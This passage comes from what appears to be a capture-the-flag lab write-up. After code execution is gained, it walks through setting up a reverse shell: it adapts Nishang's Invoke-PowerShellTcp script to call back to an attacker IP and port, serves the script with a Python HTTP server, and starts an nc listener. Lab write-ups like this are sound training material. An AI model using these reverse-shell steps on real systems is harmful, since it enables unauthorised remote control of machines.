 Try the _whoami_ command again.

![](../images/max/638/1*77RcTNCG3TLwbzd1WBGSaw.png)

Perfect, we finally have code execution!

## Initial Foothold <a id="7bb0"></a>

Let’s use that to send a reverse shell to our attack machine.

Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```
